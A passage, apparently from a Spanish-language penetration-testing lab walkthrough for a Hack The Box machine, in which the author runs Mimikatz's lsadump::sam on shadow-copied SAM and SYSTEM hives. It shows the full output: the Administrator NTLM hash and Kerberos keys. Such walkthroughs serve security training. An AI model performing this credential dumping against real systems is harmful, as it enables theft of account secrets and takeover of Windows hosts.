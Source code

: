   Volveremos a utilizar Mimikatz, que subimos anteriormente, para extraer la SAM de la copia. Para ello, proporcionaremos la ruta absoluta del archivo "system" y del archivo "sam".

```powershell
PS C:\Users\Administrator\Documents> .\mimikatz.exe 'lsadump::sam /system:C:\VSS\Windows\System32\config\SYSTEM /sam:C:\VSS\Windows\System32\config\SAM' exit  

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::sam /system:C:\VSS\Windows\System32\config\SYSTEM /sam:C:\VSS\Windows\System32\config\SAM
Domain : DEV
SysKey : e4b2298c95677ce18cd2198b9a36c7df
Local SID : S-1-5-21-4124311166-4116374192-336467615

SAMKey : bb3dbea7ca8bea043c6523bf5d915ae9

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: de53e322ea95ac2723a2e3e149874aac

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : d9557883adf1e351ab19e287ce268464

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.HTB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 977755e7a9132c495b90fe59cf5471cd1187b9dab491dac0cb6d02bcc5e30740
      aes128_hmac       (4096) : e56a6fc47b432e347ad3d918056626fd
      des_cbc_md5       (4096) : 074aae9e5df751f1
    OldCredentials
      aes256_hmac       (4096) : 9d211ec8e9afdb2bd168120abc6a97375b3aa14826b6b512236c16cc361cd290
      aes128_hmac       (4096) : 99caad607311ade6c51edf9bf0afdd08
      des_cbc_md5       (4096) : 547afdf27c165e3b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DEV.HTB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 074aae9e5df751f1
    OldCredentials
      des_cbc_md5       : 547afdf27c165e3b


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

mimikatz(commandline) # exit
Bye!
```